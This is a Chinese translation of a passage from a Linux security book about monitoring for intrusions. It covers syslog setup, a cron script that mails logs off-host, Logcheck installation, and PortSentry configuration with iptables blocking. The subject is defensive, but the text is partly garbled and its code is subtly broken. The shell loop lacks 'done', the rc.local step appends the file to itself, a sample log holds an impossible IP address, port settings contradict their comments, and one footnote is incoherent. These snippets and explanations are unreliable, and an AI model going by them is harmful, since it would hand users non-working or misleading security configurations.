本章引导您了解了使用 iptables 开发独立防火墙所涉及的过程。建立了默认拒绝（deny-by-default）策略。脚本开头修复了一些常见的攻击向量，包括源地址欺骗、保护运行在特权端口上的服务、DNS 等。展示了流行网络服务的示例。同时处理了 ICMP，即底层 IP 网络层使用的控制和状态消息。演示了控制日志级别的示例。最后，描述了防火墙安装所涉及的问题，包括针对拥有静态 IP 地址的站点和拥有动态分配 IP 地址的站点。

# 第二部分

## 检测入侵

这本书的全部内容都是关于降低入侵的概率、严重程度和后果的。要现实一点。没有系统是 100% 安全的，任何声称他的系统或产品是 100% 安全的人要么是傻瓜，要么是骗子。99% 阅读本书的人会有人试图侵入他们的系统。在不更改配置的情况下，您可以通过监控活动来降低风险。

也许 10–20% 阅读本书的人会遇到系统被侵入的情况。那些被这个统计数据吓到，并考虑阅读另一本书或切换到其他操作系统的读者，强烈建议重读上一段！

第一部分中的建议是一种系统化的方法，旨在消除您系统和网络各个部分中已知的安全漏洞。现在是警惕监测入侵尝试的时候了。如果遵循本书前几部分的建议使您的系统如此安全，您为什么还要关心被阻止的攻击呢？就在我写作时，所有 Linux 发行版的当前版本都存在一个已知的 DNS 漏洞，这是由于新版本 `named` 程序中的一个 bug 造成的。通过监控系统和网络活动，您可以快速检测这些入侵并消除其后果。

监控附录 C 中讨论的安全网站至关重要，这样当有人被入侵后，您可以在相同的漏洞被用于打开您的系统之前更新您的系统。然而，这并非万能药。我的一个客户在 1999 年底通过 FTP 遭遇了入侵，这是一种在安全网站上未被讨论过的方法（当时我在为这本书进行研究的期间一直在密切监控这些网站）。

日志文件显示有可疑的 FTP 活动，时间戳表明这发生在攻击者安装某些文件之前不久。日志显示没有电子邮件或 DNS 活动。这就足以让我满意地将其认定为攻击手段。当然，一个极其高明的攻击者可能植入了伪造的日志，但这非常罕见，且此事件看起来像是脚本小子（script kiddie）所为。即使事后的安全网站搜索也只找到了简短的提及，说明类似情况发生在别人身上，但没有比“FTP”更具体的漏洞线索。

我同意 MIS 部门的观点，认为 TCP Wrappers 可以防止再次发生，并安装了 TCP Wrappers。此后未遇到后续问题。如果设置了向其他系统的自动日志记录，即使高明的攻击者清除了日志文件中的罪证，您也可能找到线索来了解渗透是如何进行的。这将使您知道应如何加固系统，以避免来自相同或不同攻击者的重复攻击。

不要低估日志文件在说服管理层重视安全预算方面的重要性。日志文件有助于预防入侵。日志文件有助于让攻击者无迹可寻。个人而言，我曾通过向 ISP 提供关于他们对我系统尝试攻击的详细报告，并解释“尝试连接已知的攻击者端口、Sun RPC 端口等绝不可能被视为合法访问”，从而促使许多攻击者账户被关闭。在一个案例中，我促使账户所有者被告知他的账户已被妥协（至少他是这样告诉 ISP 的）。这种情况发生得足够频繁，以至于我曾试图修改 blockkip 自适应 TCP Wrappers 程序以自动生成此电子邮件；这肯定很容易实现。

> ¹ 我的服务器不提供 RPC 服务、telnet、ftp 或其他服务。通过监控这些端口，我知道何时攻击针对这些端口，我的系统会自动将这些攻击者锁定在外。这可以被视为充当蜜罐（honeypot）的作用；也就是说，提供某些诱饵以将攻击者从更有价值或更敏感的东西上引开。

# 监控系统

本章专门介绍监控。其主要部分是自动监控日志文件。此外，还将查看局域网（LAN）流量，监控入侵者用于扫描您系统的扫描器，以及监控进程。文中简要讨论了使用主叫号码识别（Caller ID）功能，以查看谁正在拨号进入您的调制解调器。还将考虑使用 cron 自动执行监控任务，并了解入侵者如何将其用于对付您。本章前半部分涵盖的主题包括：

- 第 343 页“日志文件”
- 第 344 页“日志文件：度量与对策”
- 第 346 页“使用 Logcheck 检查您从不查看的日志文件”
- 第 351 页“使用 PortSentry 锁定黑客”
- 第 357 页“HostSentry”
- 第 358 页“向系统管理员发送页面消息：破解进行中！”
- 第 358 页“自动发送页面消息的示例”
- 第 361 页“构建您的自动页面消息示例”
- 第 363 页“监控 telnet 和 rsh 的使用”
- 第 364 页“使用 Arwatch 捕获 ARP 和 MAC 攻击”
- 第 368 页“监控端口使用情况”
- 第 369 页“使用 Ethereal 监控攻击”
- 第 370 页“使用 tcpdump 监控您的局域网”
- 第 375 页“使用欺骗工具包（DTK）监控扫描器”
- 第 378 页“监控进程”
- 第 381 页“Cron：监视入侵者”
- 第 381 页“主叫号码识别（Caller ID）”

花费时间配置 `/etc/syslog.conf` 文件是值得的，这样您就可以通过将证据与常规条目分离到不同的文件中，更容易发现入侵者的痕迹。同样重要的是，花费时间设置程序自动扫描日志文件以查找这些破解尝试，因为人们在这种琐碎任务上表现得很糟糕。请注意，这两个字段之间必须用制表符而不是空格分隔，以便它们被正确解释。

在发行版中，该文件有一行类似以下内容：

```
*.info:mail.none;auth.none;authpriv.none    /var/log/messages
```

这将把所有消息都转储到日志文件中。如果缺少此行（或类似的内容），我绝对建议添加它。它会将所有严重级别为 info 或更高的消息记录在此处，但由于邮件、auth 或 authpriv 消息位于其他位置，因此这些消息不会被记录。

由于邮件消息需要量很大且大多无趣，通常将它们转储到一个单独的文件中，如下所示：

```
mail.info /var/log/mail
```


以下条目将记录所有可能指示问题的安全相关消息：

```
*.warn;authpriv.notice;auth.notice    /var/log/secure
```

您可能还想记录“常规”安全消息，例如成功的登录，以便日后如果发现账户已被攻陷，可以查找其被使用的时间。

```
authpriv.debug;auth.debug    /var/log/secure.ok
```

> 第 479 页“查找和修复损害”中的许多部分都非常有用，因此现在查看这一部分可能很有帮助。

很多时候，您恰好注意到日志文件中的异常条目，这是有人闯入您系统的最初迹象。入侵者也知道这一点！任何得体的入侵者都会使用 `vi` 或 `emacs` 编辑您的日志文件，以删除他们来访的证据。这相当容易，通常会在退出登录之前完成。

需要考虑两种情况。第一种是入侵尝试失败的情况。这可以通过定期将每个重要日志文件的副本邮寄到您位于不同系统上的电子邮件账户，然后截断日志文件来处理。截断意味着从文件中删除信息并将其置零，而实际上不删除文件，这一点很重要，因为文件可能正被其他进程打开。

通常，您会通过 `cron` 任务来执行此操作。以下脚本可以放置在您的 `/usr/local/bin` 目录中，权限模式设为 700，所有者为 `root`。名称被故意取得比较普通。

```
#!/bin/sh
cd /var/log/
for f in crit messages syslog secure secure.ok \
daemon ftpd/xferlog lpr cron mail
do
  if [ -s $f ]; \
then
    Mail -s "LOG: $f" \\
      jimjoyce@othersys.vault.com < $f
      # 如果邮件失败则保存
    cp $f $f.old
    cp /dev/null $f
fi
```

在这个示例中，直接指定了系统管理员的电子邮件地址。然而，如果系统管理职责是共享的，或者如果系统管理员去度假了，最好是将电子邮件发送给 `root` 或某个其他官方地址，并将目的地为该地址的电子邮件重定向到一个或多个系统管理员，或者让某个人频繁检查电子邮件。大多数 shell 和邮件提醒程序（如 `xbiff`）都可以监控多个邮箱。

您还可以安排通过 `root` 的 `crontab` 条目，每天早晨 7 点彻底调用该脚本：

```
-crontab -l > /tmp/foo22
cat >> /tmp/foo22
00 07 * * * /usr/local/bin/forecasts
control-D
crontab /tmp/foo22
/bin/rm /tmp/foo22
```

通过向不同系统上的账户发送电子邮件，入侵者需要闯入两个不同的系统才能擦除她的踪迹。通过选择所述其他系统为具有非常严格安全性的系统，可能位于不同的网络或组织中，这将使她的工作变得不可能。

如果在脚本运行的一刹那生成了日志条目，脚本中存在一个小的竞态条件。假设脚本运行时间为 0.1 秒，一天为 86,000 秒，这个窗口大约每百万天会丢失一次重要条目。

在新版本的 Linux 发行版中，有一个 `logrotate` 程序，它与守护进程本身协同工作，周期性地轮换日志文件，没有竞态条件。换句话说，由于日志文件倾向于变得非常大，`logrotate` 程序定期将每个文件重命名为备份名称，然后要求其守护进程开始使用日志文件的新副本。

您可以使用 `grep` 或 `awk` 过滤掉许多不需要的条目，从而变得更加复杂。使用 `Logcheck` 或其他自动过滤程序会更好，尽管仍然建议定期扫描原始日志文件。`Logcheck` 在第 346 页“使用 Logcheck 检查您从不查看的日志文件”中进行了讨论。

`logrotate` 程序由一个功能强大的配置文件驱动，该文件有一个出人意料的名称：`/etc/logrotate.conf`。您可以轻松地将上述过滤和邮件命令添加到此文件中。

### 8.3 使用 Logcheck 检查您从不查看的日志文件

| 危险等级 |

`Logcheck` 程序分析系统最大的日志文件，提取任何可能指示以下内容的信息：(1) 攻击，(2) 安全违规，或 (3) 其他异常（按严重程度排序），生成总结这些事件的报告，并通过电子邮件通知系统管理员。对于那些不每天或每小时检查日志文件的人（这几乎是所有人），这是有效的。它从每个系统的 `root` `crontab` 中调用，通常是每天或每小时一次。重要的是要认识到，这是一个不实时操作的入侵检测系统（IDS）。即使被调用，在最好的情况下，它仍给入侵者平均 30 分钟的时间造成损害，在最坏的情况下则是一个完整的周末。

以 Psionic 的标准形式，它提供了关于您的静态防火墙被什么类型的活动触发的“总体感觉”，并且还显示了 `PortSentry`² 触发的内容

1. 推荐使用 `Snort` 作为完整的实时 IDS。`Snort` 应与 `Logcheck` 结合使用，而不是替代它。

2. `PortSentry` 是 Psionic 的优秀能力。它在第 351 页“使用 PortSentry 锁定黑客”中进行了讨论。如果它发现主要优势在于我的 Cracker Trap 能够检测扫描，并且配置起来所需的工作量更少（当 Cracker 仅发送客户端建立 TCP 连接所需的数据包中的第一个，或者发送了有缺陷的数据包时，Stealth TCP 扫描才会发生。）Cracker Trap 具有更好的通知功能。通常，我会在防火墙上同时安装两者，以获得最佳覆盖范围和额外的安全层。

以及它因此屏蔽了哪些网站。它还会显示发生了哪些失败的 SSH 尝试，发生了哪些邮件中继尝试等。如果发生了入侵，通过日志记录黑客尝试提升权限的失败行为，你可能能够发现这一点。`Logcheck` 巧妙地利用模式匹配来识别那些包含诸如“攻击”、“违规”等类似指示主要子系统错误的不祥错误词。`Logcheck` 有一个短语忽略列表，因此你不必担心那些你已经知晓的克隆攻击。

尽管 Psionic 在其网站上将 `Logcheck` 更名为 `LogEntry`，且 gzipped 工具栏中，从 `root` `crontab` 运行的脚本名称仍为 `logcheck`，且与其他早期版本相比没有变化。事实上，Psionic 提供的 `LogEntry` 横幅与此书第一版配套 CD-ROM 上提供的上一个版本完全相同。

在使用 `Logcheck` 监控客户端网络（包括数十台系统，甚至是我自己网络上的系统）时，我修复了一些缺陷：

1. 即使对于非活动系统，任何人都可能几乎每小时都能收到邮件。大多数邮件仅包含 `Logcheck` 三个严重级别中最低级别的信息。然而，忽略这些邮件会让你冒着忽略重大攻击的风险。如果在主题行的开头部分能显示这一点，这样从浏览器屏幕就能轻松看到，而无需打开消息，那就好了。

2. 如果能有一个选项让 `Logcheck` 通过电子邮件通知你安全违规和攻击，但同时仍将“异常活动”转储到一个普通邮箱（与你的常规邮箱分开）以便偶尔检查，那就更好了。不幸的是，`Logcheck` 无法根据遇到的错误的最高严重级别将电子邮件发送到不同的地址。

3. 每个严重级别的条目也出现在报告中每个携带较少但可能重要警告的部分。因此，我发现自己忽略了电子邮件中的 Active System Alert（活动系统警报）部分，因为这些项目也出现在电子邮件的 Security Violations（安全违规）部分。类似地，我很少继续看 Unusual System Events（异常系统事件），因为该部分大部分只是重复了安全违规内容。

4. 几乎每个条目的长度都大大超过 80 个字符，导致行换行。这使得很难快速扫描电子邮件以查找令我担心的事情，例如针对特定 IP 地址或端口的攻击。

5. 每行都包含不重要的数据，例如系统名称和内核：Packet log: 当时上下文已经很明显这是 IP Chains 条目。此外，各种 TCP 标志将违规的“简化”常见错误（如数据包丢弃）混淆在一起。在这种情况下，你的兴趣点在于源系统和目标系统的 IP 地址、端口和协议。在极少感兴趣的情况下，始终可以选择在原始日志文件中 `grep` 额外字段。

6. 预计系统管理员要记住协议号，例如 6 代表 TCP，17 代表 UDP，2 代表 DDP。虽然我在分析网络流量十多年后知道这些，但解读原始数字仍然需要更长的时间。

7. `Logcheck` 包含 `PortSentry` 的日志，记录用于锁定每个攻击者的命令。我知道我告诉 `PortSentry` 做什么，我不希望一天看到几十遍同样的长行。

8. `Logcheck` 不允许修改 `From:` 行以指示其来源计算机。如果 Pentacorp 在例如八个办公室中的每一个都有防火墙，`root@pentacorp.com` 的电子邮件地址没有信息量，特别是当其他电子邮件也来自 `root` 时。


我已经修复了 Logcheck 中的这些问题，并将我的增强版本包含在 CD-ROM 中。或者，如果你向 `book@verysecurelinux.com` 发送请求，我会提供一份副本。可以通过访问 `www.psionic.com/products/logsentry.html` 并按照其指示进行操作并“签署”同意某些构建条款来获取 Psionic 的原始版本。由此生成的 tarball 也可以以原始名称 `logcheck-1.1.1.tar.gz` 从 CD-ROM 获取。我的增强版本位于子目录中，名称为 `logcheck-1.1.1ibob.tar.gz`。

### 典型输出示例

以下是一些典型的输出示例，第一项为日期和时间，格式为 MM/DD-HH:MM:SS。

Active System Attack Alerts (dada)

------------------------------------

04/16-16:39:46 portsentry: ATTACK: riddle.com/212.223.7 TCP 80

Security Violations (dada)

--------------------------

05/15-19:42:44 C in DENY e0 T 151.27.1.37:1 126.193.251.197:0 S #21

05/20-03:03:15 T I=e0 126.193.251.187 126.193.251.197 DF ICMP=8:0

05/21-00:21:51 T D I=e1 O=e0 230.83.97.1944 76.121.32.45-6346 TCP

当 PortSentry 检测到 riddle.com 正在扫描我们的 Web 服务器（可能只是针对 TFS）时，产生了系统攻击警报。由于我们未在防火墙系统上运行 Web 服务器，PortSentry 将此视为攻击并屏蔽了 riddle.com。（具体而言，PortSentry 是通过观察一个发送到没有服务监听的端口的数据包来确定这一点的）。以 C 开头的行展示了 IP chains 的样子。该数据包位于输入链上。e 表示数据包通过 eth0 进入，T 表示协议是 TCP。源和目标 IP 及端口未经增强，随后是 s，表示 SYN 位已设置（仅限 TCP 协议）。最后，#21 表示输入链中的第 21 号规则。

第二条违规以 T 开头，表示一个 IP log 条目。通常你不在同一系统上看到 IP Tables 和 IP Chains（因为任何特定时间只能运行 IP Table 或 IP Module 中的一种，且大多数人使用另一种）。I= 如果是适用的话，表示输入接口。O=e 是 OUT=eth0 的简写。接下来是源和目标 IP。DF 是由神秘部门设置的。³ 最后，ICMP type=8 表示这是一个类型为 8（ping）且子类型为 0 的 ICMP 消息（没有其他 ping 子类型）。

该违规是另一个 IP Tables 条目行，但由 SuSE 的 firewall2 脚本生成的规则产生，该脚本可用于最近的 SuSE 版本。最初的 D (DEFAULT) 是我对 SuSE 冗长的 SUSE-FW-DROP-DEFAULT 的简写形式。⁴ 我知道这是一个 SuSE 系统，这是一条防火墙消息，并且如果被丢弃，它很可能已被记录。因此，我使用 T（代表 IP Tables）来指示这一切。实际上，人们会很快学会阅读这些，并且这些简写形式比费力地阅读 IP Tables 或 IP Chains 的换行输出快得多。这是我的 Beta 测试员的观点。

### 安装过程

现在让我们走一遍安装过程。首先，确保 syslog 正在运行；它应该在任何 Linux 系统或类 BSD Unix 系统上运行。日志文件可能位于 `/var/log`，其中 `messages` 文件生成除调试和邮件日志外所有消息的副本。建议将所有日志文件的权限修改为 600，并绑定以防止黑客使用普通账户从中获取信息。接下来，使用 CD-ROM 作为 `/mnt/cdrom` 并执行以下命令：

```
zcat /mnt/cdrom/book/logcheck-1.1.lob.tar.gz | tar -xof -
logcheck-1.1.lob
```

现在，阅读文本文件 `LICENSE`、`CREDITS` 和 `crontab`。对于使用 Sendmail 的人，编辑 `/etc/mail/aliases` 并为应该接收安全问题通知的人员创建电子邮件别名。最好这是一个独立的邮箱，与你的常规邮箱分开，以避免交叉污染。然后，创建别名 `alertpage`，以便能够接收安全违规和攻击电子邮件的寻呼机接收这些邮件。如果不希望有寻呼机电子邮件，

```
alertpage:/dev/null
```

现在使用以下命令更新数据库：

```
newaliases
```

³ DF 表示设置了 Don't Fragment（不分片）标志。由于文档中没有说明，我不得不通过在内核源代码树上使用 grep 才弄明白了这一点。

⁴ 在 IP Tables 中，你可以指定某些文本应添加到生成的日志文件前：SuSE 的 firewall2 脚本（在最近的版本中是标准的）在前面加上 SUSE-FW-stuff，这使得行包含重复的文本。也就是说，错误消息中空格分隔单词的变化部分应该位于单词的开头（以及行的开头），否则很可能无法检测到。

这里有一个关于为人类编写错误消息（包括日志消息，适用于 firewall2、PortSentry 等）的好教训。努力不要在错误消息中包含明显的、重复的或无关的信息。这些不必要的信息主要使理解错误消息变得更加困难。这使得消息的预期读者有无法理解其关键信息的风险。此外，处理后的日志消息不应超过 80 个字符，以避免行换行。遵循这一教训，阅读消息的人可以更快地浏览感兴趣的行，并花费时间阅读不必要的单词。

若要使用其他邮件传输程序（例如 Postfix、qmail 或 mail），可以更新其别名，或者通过编辑 `systems/linux/logcheck.sh` 来实现。

虽然原始的 `logcheck.sh` 将电子邮件发送至“root”，但我发现使用 `alert` 和 `alertaliases` 更具可配置性。这是因为系统中不存在 root 账户，且接收 Logcheck 电子邮件的人员可能与偶尔接收 root 错误信息的人员不同。Psionic 公司原本希望每位系统管理员自行编辑 `logcheck.sh` 脚本本身，但我不喜欢为每个系统进行脚本定制，因为这使得在多台系统上安装脚本的更新版本成为一个低效的过程。

现在，请以 root 权限运行，并将 `logcheck.sh` 脚本安装到 `/usr/local/etc`，并使用以下命令编译和安装 `logtail` 程序：

```
make linux
```

在进入“生产环境”之前，通过直接调用以下命令来测试 Logcheck：

```
/usr/local/etc/logcheck.sh
```

如果系统已长时间运行且日志文件从未被裁剪（trimming），首次运行可能需要 10–60 秒。Logcheck 会在处理日志文件时跟踪每个文件的大小，并在下次记住该值，然后使用其 `logtail` 程序执行相当于 `tail` 命令的操作。其实现非常高效：如果在一个 10MB 的日志文件中新增了 10 行文本，它会直接定位到那 10 行新内容的起始位置，而不是读取整个 10MB 文件。请再次调用 Logcheck 以验证这一点。检查你的电子邮件和寻呼机，确保其工作正常。如果每封邮件都抱怨某个在你的 Linux 发行版中不存在的日志文件缺失，请使用 `touch` 命令创建一个零长度文件，并将其权限设置为 600。

如果你正在运行 IP Tables 或 IP Chains 但没有使用 Logcheck 或其他监控工具，你可能会对大量被丢弃的数据包感到惊讶。如果你的网络中存在 Windows 和 DHCP 服务，那么会有许多你不关心的通信流量。你可以通过编辑防火墙并关闭那些丢弃这些数据包规则的日志记录功能来处理此问题。可能需要花费一些时间来调整规则以避免所有这些情况，但从长远来看这将节省大量资源。你会发现，你此前曾遭受过多次未遂攻击（如果它们成功了，你早已知晓）。你可能会发现，你的 ISP 正在通过各种 ping 和类似请求来占用你的带宽，这些请求指向你的防火墙或服务器。

5. 在配置全球范围内的客户端时，我注意到大约有一半的 ISP 无意间浪费了客户端的带宽以及那些负责配置防火墙人员的时间，它们会发送不必要的路由协议（RIP）数据包（UDP 端口 520）以及对 DNS 或 SMTP 请求的 ident 响应（TCP 端口 113）。这些数据包应当且应该被丢弃或拒绝。

UDP 请求绝对不应被信任，因为 UDP 数据包可以被伪造，且大多数 ISP 并没有使用本书中讨论过的简单防伪造技术。这些请求很可能是 ISP 中某人在配置时未考虑带宽问题所致。

### 使用 PortSentry 封锁黑客

最后，从 `logcheck-1.1.1.bob` 目录中，使用以下命令将 Logcheck 的调用添加到 root 的 crontab 条目中：


```
crontab -l > foo2
tail -1 crontab >> foo2
```

如果你不希望每晚深夜和周末每小时都被寻呼，请编辑 `foo2` 的最后一行。未编辑的最后一行看起来像：

```
00 * * * * /usr/local/etc/logcheck.sh
```

第二个空格分隔的字段是命令应运行的小时列表。对于任何在下午 5 点后可以离开的人来说，设置为 9-17。为了在晚上 8 点额外检查一次，请使用 9-17,20。第五个字段指定脚本应运行的日期，1-5 表示工作日。对于希望在工作日进行额外检查的人来说，请复制该行并适当编辑每一行。然后，`crontab -l` 输出的 Logcheck 行可能看起来像：

```
00 9-17,20 * 1-5 /usr/local/etc/logcheck.sh
00 10,14,18,22 * 6,0 /usr/local/etc/logcheck.sh
```


PortSentry 是 Psionic 公司的入侵检测系统（IDS），它也可以充当自适应防火墙。这是一款优秀的产品，我使用它取得了巨大成功已有数年之久。虽然它不是 GPL 许可的，但个人和公司都可以安装用于内部使用。它允许你监控一个用户可配置的 TCP 和 UDP 端口列表，以检测可能的入侵者的访问尝试。当入侵者敲击这些被监控的端口之一时，可以采取各种措施，包括通知你哪个系统访问了哪个端口，以及临时或永久地将该系统封锁在你的网络之外。

它有能力检测隐形攻击，例如常见的入侵者技术：发送初始 SYN 数据包，等待 SYN-ACK 以表明有进程正在监听该端口，并且从不发送初始 TCP 三次握手中的第三个数据包，即 ACK 数据包。正如物理学中所言，两个物体不能占据同一空间。因此，你不希望 PortSentry 监听某个“真实”服务器将绑定到该系统的相同端口上。调用 PortSentry 可以监听 TCP 或 UDP 端口列表：

- 基本端口绑定模式（`-tcp` 或 `-udp`）。PortSentry 将绑定到指定的端口列表，并监听连接及做出反应。由于 Linux 或 UNIX 内核处理 TCP 的初始三次握手，因此此方法无法检测 TCP 扫描或其他各种隐形扫描，例如 FIN、Null 或 Xmas 扫描。

- 隐形扫描模式（`-stcp` 或 `-udp`）。PortSentry 将打开一个原始套接字以监听混杂模式，如果指定范围内任何尚未有连接监听的端口被攻击，则触发警报。隐形扫描将被检测到。

- 高级隐形扫描模式（`-atcp` 或 `-udp`）。PortSentry 将打开一个原始套接字以监听，如果指定范围内任何尚未有连接监听的端口被攻击，则触发警报。隐形扫描将被检测到。与之前的模式相比，高级隐形扫描模式的优势在于，它能检测到入侵者客户端可能打开的随机高端口号，企图劫持现有连接。它也非常敏感，如果指定了足够大的端口范围，有些人可能会称之为触发警报。另一个优势是，入侵者会将该端口视为关闭或过滤状态，而在基本 TCP 模式下则被视为开放状态。

其缺点在于，它允许入侵者通过伪造源地址发起 DoS 攻击。虽然 PortSentry 有限的文档对此表示极大关切，但除非你是一个非常知名的网站，否则这种情况发生的可能性极低。偶尔（每几个月一次）可能会无意中影响内部用户，但这只需重启 PortSentry 即可解决。

大多数系统管理员发现高级隐形模式最适合，并且希望同时运行 TCP 和 UDP 版本。它将检测 `connect()`、SYN（半开）、FIN、XMAS、NULL、任何 TCP 扫描以及所有 UDP 扫描，除了小片段。（应配置防火墙对所有数据包进行解片段化，以防范片段化攻击，如第 567 页“片段化攻击”中所讨论的那样）。根据文档，目前两种隐形模式仅在 Linux 上可用。

PortSentry 将使用 syslog 设施通知你任何攻击；这假设你能及时查看日志、注意到问题并做出反应。Psionic 公司的 Logcheck（现称 LogSentry）程序适合此用途，其限制在于可能每小时手动调用一次，并可能存在误报。这在第 346 页“使用日志记录检查你从不检查的文件”中有所介绍。另一种选择是使用 PortSentry 的 `KILL_RUN_CMD` 功能，让它在检测到攻击时立即给你发送电子邮件。PortSentry 还通过与 IP Tables、IP Chains、TCP Wrappers 接口或在 `KILL_RUN_CMD` 中调用任何用户指定命令来提供非常有价值的防火墙功能。这可用于与“入侵者陷阱”接口。

通常，在防火墙上运行时，PortSentry 只会检测针对防火墙本身或包括防火墙在内的广播目的地的攻击。然而，可以在防火墙上使用端口重定向，将其他系统上被监控端口的数据包重定向回防火墙，以便让 PortSentry 做出反应。

最新版本的 PortSentry 可以从 Psionic 的网站下载：

www.psionic.com/abacus/portsentry/

## 使用 PortSentry 封锁黑客

要安装已下载的 1.1 版本，请执行以下操作：

```bash
tar -xovf portsentry-1.1.tar.gz
cd portsentry-1.1
```

查看 `LICENSE` 和 `README*` 文件。1.1 版本的改进包括对 2.4 内核的支持和 bug 修复，以及 IP Tables 和子网掩码支持。`README` 和 `COMPAT` 文件列出了兼容的平台，包括 Linux、UNIX 的流行版本以及 Mac 的 OSX。

请遵循以下步骤来配置和调用 PortSentry：

### `portsentry_config.h`

如果这些设置不符合你的喜好，现在就是更改它们的最佳时机。`/etc/hosts.deny` 文件仅在你为自适应防火墙选项选择了 TCP Wrappers 而不是更有效的方法（如 IP Tables）时才会被使用。如果你想做得更细致，可以将 `SYSLOG_FACILITY` 更改为 `DAEMON`，或者改为 `LOG_LOCAL0`，编辑 `/etc/syslog.conf` 将这些消息放入单独的文件中并仔细监控它们。虽然“第 358 页的自动寻呼示例”解释了如何做到这一点，但更好的解决方案是将 `KILL_RUN_CMD` 设置为生成电子邮件到你的寻呼机。

### `portsentry.conf`

它不是一个 shell 脚本，但规则是：许多以 `#` 字符开头的行和空行会被忽略。`=` 用于将带引号的值分配给变量。你需要指定要触发警报的 TCP 和 UDP 端口以及采取什么行动。虽然这个文件的注释相当详尽，但需要注意的是，PortSentry 仅使用与命令行标志所选保护模式相关的变量。它提供了建议值，可作为针对你的站点进行定制的良好起点。根据你在系统上提供的服务，你可能需要调整。如果它将在防火墙上运行，你可能只提供 SSH 和 Ident。

- 如果你使用的是基本端口绑定或隐身模式，你需要将 `TCP_PORTS` 变量设置为要监听攻击的 TCP 端口，并需要为 UDP 端口设置 `UDP_PORTS` 变量。这是一个逗号分隔的列表；不允许有空格和制表符。只有基本模式才会实际绑定到这些端口。隐身模式将打开一个原始套接字，分析所有包含此系统目标地址（以及广播数据包）的传入流量，并对端口列表中的那些做出反应。如果你选择基本模式，对打开端口的数量有限制。在 Linux 2.2 和 2.4 内核上，这个限制通常是 1024 个打开端口。在许多 UNIX 系统上，它是每个进程 64 个，包括要打开的常规文件和 I/O 设备。

- 如果你将使用高级隐身模式，这允许监听大量端口，数量可达数千，因为它不绑定到单个端口。对于此列表，使用 `ADVANCED_PORTS_TCP` 和 `ADVANCED_PORTS_UDP` 变量指定要监控的最高端口号。使用 `ADVANCED_EXCLUDE_TCP` 和 `ADVANCED_EXCLUDE_UDP` 变量列出要忽略的端口，要么是因为你将在上面运行真实服务，要么是因为你想忽略上面的通信。虽然文档对监听 1023 以上的端口发出了严厉警告，但我没有发现这是一个问题。更重要的是，许多存在漏洞且常受攻击的服务编号在此数字之上。

我更喜欢高级隐身模式而不是其他模式，并发现以下配置在防火墙上有效：

```bash
# Watch 1080 for socks, 2049 for NFS, and 6000 for X
ADVANCED_PORTS_TCP="6010"
ADVANCED_PORTS_UDP="1024"
# Default TCP Ident and NetBIOS service
ADVANCED_EXCLUDE_TCP="113, 139, 37"
# Default UDP route (RIP), NetBIOS, DHCP, NTP, bootp broadcasts.
ADVANCED_EXCLUDE_UDP="520,138,137,67,123,127"
```


`IGNORE_FILE` 变量的文件名列出了你希望完全忽略的主机数据包。如果你将封锁攻击者，这些将是你非常信任的系统（既信任你的系统管理员的诚实，也信任他们抵御入侵的能力），它们需要通过你的防火墙访问。这可能包括系统管理员的工作和家庭系统，如果它们得到良好保护的话。与 Tracer Trap 不同，如果这些系统攻击你，PortSentry 甚至不会警告你。这是一个强有力的论点，支持 PortSentry 的自适应防火墙攻击应调用 Tracer Trap。后者在处理经过测试的系统攻击时有效，而不会将其锁定。如果调用 `ignore.csh`，此文件由 `ignore.csh` 机器生成，因此不应直接编辑。

`RESOLVE_HOST` 变量通常设置为 `"1"`（包含引号），以尝试解析攻击系统的名称。这将告诉你攻击的具体情况。如果主机名包含随机字符，它可能是某人的受损 DNS 服务器。如果它的名称是 `ns2` 或 `dns3`，那么它可能是某人的。如果它的名称是 `www`，你很可能正在处理一个受损的 web 服务器。如果你的 DNS 服务器很慢，请将其设置为 `"0"`。

`BLOCK_TCP` 和 `BLOCK_UDP` 变量决定 PortSentry 是否作为自适应防火墙运行并封锁。"1" 让 PortSentry 执行封锁，"2" 仅调用在 `KILL_RUN_CMD` 中指定的命令（调用 Tracer Trap 或你自己的自定义 IPT/IP 链，或用于封锁的其他防火墙接口），"0" 表示不封锁。除了基本 TCP 模式外，所有模式都容易受到强制源 IP 地址模式的 DoS 攻击。实际上，对于所有知名站点来说，这种情况如此罕见，系统管理员不会担心这种风险。

`KILL_ROUTE` 变量指定如果你为每个 `BLOCK_TCP` 或 `BLOCK_UDP` 选择了 "1"，PortSentry 应如何封锁攻击者。在 Linux 上使用 IP Tables 或 IP 方法。对于 UNIX，使用 `route` 命令可能是你唯一的选项。`route` 命令的缺点是，除了 TCP 基本模式外，对于后续攻击你会发现已经被封锁了。使用 IP Tables 或 IP Chains，除非你指定了日志记录，否则你不会再次被打扰，攻击者也无法接收数据包。

静默 Tables/Chains 封锁的主要缺点是，如果有人重复攻击的频率极高，以至于占用了你相当一部分带宽，你将不会察觉到。根据你的包过滤方式，以下任何方法都有效：

```bash
KILL_ROUTE=/bin/iptables -I INPUT 1 -s $TARGET -j DROP
KILL_ROUTE=/bin/ipchains -I input 1 -s $TARGET -j DENY
KILL_ROUTE=/bin/ipchains -I input 1 -s $TARGET -j DENY -l
```

如果指定了 `KILL_RUN_CMD`，其值将提供给命令行。如果你指定了一个邮件命令，你将即时收到攻击通知。你可以在此处指定自己的封锁操作。在 `KILL_ROUTE` 中自己的封锁命令与在 `KILL_RUN_CMD` 中指定它有什么区别？除了哲学观念外没有区别。要生成电子邮件，这是典型的：

```bash
KILL_RUN_CMD=echo /sbin/iptables -I INPUT 1 -s $TARGET \
-j DROP >> /etc/rc.d/fw.trouble
KILL_RUN_CMD=echo /sbin/ipchains -I input 1 -s $TARGET \
-j DENY >> /etc/rc.d/fw.trouble
```

PortSentry 的 `KILL_RUN_CMD` 可用于添加 IP 或 IP Chains 封锁规则，但它会在系统重启时丢失。对于大多数安装环境，我看不到不解除攻击系统封锁的理由。使用 `KILL_RUN_CMD` 调用 Cracker Trap 的封锁命令将永久封锁攻击者，因为它会更新 `/etc/rc.d/fw.trouble` 文件。如果你不想使用 Cracker Trap，可以通过从 CD-ROM 上的 `book/crackertrap` 目录复制 `fw.trouble` 骨架文件并将 `KILL_RUN_CMD` 设置为上述任一项来获得相同的效果。

你可能不希望使用 `\`，而是在 `portsentry.conf` 中保留单行长行。最后，将以下内容添加到 `/etc/rc.d/rc.local` 文件的末尾：

```bash
/etc/rc.d/rc.local
```

这将加载被永久封锁系统的规则。

### 处理 portsentry.ignore

以列出被忽略的任何受信 IP。这是你将列出 PortSentry 系统接口的地方，包括循环回设备的 IP，以及系统管理员的工作和家庭系统（如果得到彻底保护的话）。从 1.1 版本开始，可以使用掩码，指定网络位数。你可能想列出你的 DMZ 的适当范围，也可能不想。

